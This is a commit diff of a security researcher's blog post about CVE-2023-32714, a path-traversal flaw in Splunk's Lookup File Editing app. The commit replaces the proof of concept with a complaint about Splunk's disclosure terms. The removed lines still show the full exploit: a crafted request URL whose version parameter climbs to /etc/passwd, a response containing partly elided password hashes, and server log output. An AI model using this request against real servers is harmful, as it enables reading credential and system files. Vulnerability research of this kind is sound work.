

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/2023-06-08-CVE-2023-32714_SPLUNK_PoC.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2023-06-08-CVE-2023-32714_SPLUNK_PoC.md

````diff
--- a/_posts/hacking_and_pentests/2023-06-08-CVE-2023-32714_SPLUNK_PoC.md
+++ b/_posts/hacking_and_pentests/2023-06-08-CVE-2023-32714_SPLUNK_PoC.md
@@ -2,60 +2,54 @@
 layout: post
 title:  "CVE-2023-32714 Splunk App for Lookup File Editing, PoC exploit for path traversal"
 datetime: 2023-06-19 23:05:00 MEST
-last_modified_at: 2023-06-19 23:06:00 MEST
+last_modified_at: 2024-09-18 23:30:00 MEST
 author: 'psytester'
 ---
 
 This time I have analyzed the vulnerability of [CVE-2023-32714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32714) Path Traversal in Splunk App for Lookup File Editing.<br>
-I checked the vulnerability how a (low-privileged) Splunk user can, if this App is installed, do a path traversal.<br>
 
-Taking a diff of App version 3.6.0 and 4.0.1 the `__init__.py` shows a new section
+The research was only to force my IT department to do they job and for me to learn much more.<br>
+
+Security vulnerabilities are often abstract and if you can't see how easy some of them are to exploit, you can't raise awareness.<br>
+It's actually hard to argue sometimes: Please do the update because there seem to be vulnerabilities.<br>
+But it is very easy if you can say: Look this vulnerability is just as easy to exploit.<br>
+That shortens many discussions extremely.<br>
+
+Now I'm pissed off for Splunk Inc.
+
+![Speleologist forbidden](https://psytester.github.io/images/HTTP_403.jpg)
+
+~~Jun. 2023 Here is my exploit.~~ Sep. 2024 Here **was** my exploit!
+
+Ouch, where did the article disappear to?<br>
+Apparently, by creating two reports via Hackerone, I agreed to Splunk's terms and conditions.<br>
+They say.<br>
+Yes, Splunk's landing page for reporting vulnerabilities refers to they GTC agreement.<br>
+
+Both reports where closed as informational only, although the first one can be used to create a user-controlled shell script for another vulnaribility<br>
+and the second was an step further but rejected because my "attack scenario requires misconfiguration"
+
+What happens behind the stage? Splunk states to me
 ```
-        if version is not None:
-            version = os.path.basename(version)
+Splunk does not allow researchers to disclose contents of any submission without explicit Splunk authorization
+
+Disclosure Policy
+While we encourage you to discover and report to us any vulnerabilities found in a responsible manner, the following conduct is expressly prohibited and will result in possible legal action against you:
+Disclosing any vulnerabilities or suspected vulnerabilities discovered to any other person or organization without explicit Splunk authorization;
+Disclosing the contents of any submission without explicit Splunk authorization;
+[....]
 ```
 
-ok, let's dig deeper, start the App http://splunkserver:8000/en-US/app/lookup_editor/lookup_list
+I agree to first sentence for my reports, as usual!<br>
+Is this valid for research work on exploits for Splunk's advisory?
 
-In App Lookup File Editing you can see a lot of predefined files like `examples.csv` or for a normal user read only files like `registered_users`<br>
-or you can create a new entry by `Create a New Lookup` button.<br>
-If you change the content, you will create a new version of the file and you can go back by the button `Revert to a previous version` and its drop down list.
+I have not found this chapter despite searching on their site or search engine.<br>
+But ok, I follow the rules and I don't need any legal dispute.<br>
 
-You guess what comes next
+Lessons learned the hard way. Next time I will think twice to report to such VDP program.<br>
+They don't need me, I don't need them.
 
-If the lookup_file is at least present, the namespace/ lookup_type and owner needs to match, we try to load an `older version` of the file ;-)
-```
-lookup_contents?\
-lookup_file=examples.csv  (not the query 'lookup')
-&namespace=splunk-dashboard-studio
-&lookup_type=csv
-&version=../../../../../../../../etc/passwd
-&owner=nobody
-```
-
-Trigger the path traversal
-```
-http://vmu2004:8000/en-US/splunkd/__raw/services/data/lookup_edit/lookup_contents?lookup_file=examples.csv&namespace=splunk-dashboard-studio&lookup_type=csv&version=../../../../../../../../etc/passwd&owner=nobody
-```
-
-Response:
-```
-[[":admin:$6$xFG4uO8RpRr......::Administrator:admin::::19467"], [":user:$6$ZbdM6GA7kO........:::user::::19527"]]
-```
-
-```
-less /opt/splunk/var/log/splunk/lookup_editor_rest_handler.log
-
-06/19/2023 10:38:16 PM +0200 CEST INFO Resolved lookup file, path=/opt/splunk-9.0.3/etc/passwd
-06/19/2023 10:38:16 PM +0200 CEST INFO Size of lookup file determined, file_size=293, path=/opt/splunk-9.0.3/etc/passwd
-06/19/2023 10:38:16 PM +0200 CEST INFO Loading lookup file from path=/opt/splunk-9.0.3/etc/passwd
-```
-
-Company internal I started the game "security incident threat handling & response". I like such "simple" things because we need more eye opener for security awareness in terms of faster installation of updates.<br>
-Splunk was already updated to 9.0.5, but the App was forgotten :-/<br>
-Reported to my IT at 22:00, update next day at 11:00. I was happy to lose the "game" because I thought it would last much longer.<br>
-
-Thank you for reading. The CVE is not my credit, but the work on the PoC exploit is powered by psytester, this post was only for my private fun. ;-)
+I will update this blog entry if I got the url pointing to this chapter.
 
 # Disclaimer
 
````
